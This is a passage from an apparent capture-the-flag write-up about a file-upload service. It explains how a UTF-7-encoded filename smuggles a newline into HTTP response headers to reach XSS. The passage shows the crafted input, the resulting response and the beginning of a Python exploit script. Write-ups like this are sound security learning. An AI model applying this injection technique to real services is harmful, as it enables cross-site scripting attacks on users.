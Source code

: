 After reading the source code, we can deduce that it saves, apart from the content, four different files which are then converted to headers. 
These files are: `{file_uuid}.name`, `{file_uuid}.size`, `{file_uuid}.encoding` and `{file_uuid}.content_type`
The size and content-type appear correct, so let's examine the name and encoding in detail.
One detail that can easily be missed is that when requesting a file, the `get_file_info` function reads the files using the encoding of the upload. 
Why is this important? Because filename can’t contain newlines, but using a different encoding, a strange one-line input can be converted into a header injection.
See the following example using our favorite tool CyberChef (`Encode text` and `Encoding: UTF-7`), developed by our friends of the UK’s cyber agency xD

```
[Input] UTF-7''key:+AAo-value
[Information] Filename: key:+AAo-value 
[Information] UUID:e9ca6413-1577-4ffd-9118-df96ee006605

[HTTP RESPONSE]
server: ycalb
date: Mon, 26 May 2025 01:49:09 GMT
content-disposition: attachment
x-file-name: key:
value: 
x-file-encoding: utf-7
x-file-content-type: image/jpeg
x-file-size: 27
access-control-allow-origin: https://gigaupload.task.sasc.tf
transfer-encoding: chunked

<html><h1>HELLO</h1></html>
```

As you can see, the weird `+AAO-` gets converted into a newline. 
If you think it’s silly that you didn’t find the vulnerability, I have to admit I knew what it was and still wasted more time trying to make it work.
Anyway, I finally got the header injection. 
Now we can have any HTML content to exploit XSS. 
If you want to test, I put my script here (don't judge my code). 
Change credentials and try inserting `UTF-7''key:+AAo-bubu`.

```python3
import json
import requests 
from bs4 import BeautifulSoup



URL = "https://gigaupload.task.sasc.tf"
URL_STORAGE = "https://gigastorage.task.sasc.tf"
SESSION = requests.Session()



def login():
    global SESSION
    # CHANGE THIS
    r = SESSION.post(URL+'/api/login', json={"username":"USERNAME","password":"PASSWORD"})

def get_token():
    global SESSION
    response = SESSION.get(URL+'/upload')
    soup = BeautifulSoup(response.text, 'html.parser')
    token_input = soup.find('input', {'name': 'upload_token'})
    if token_input and 'value' in token_input.attrs:
        return token_input['value']
```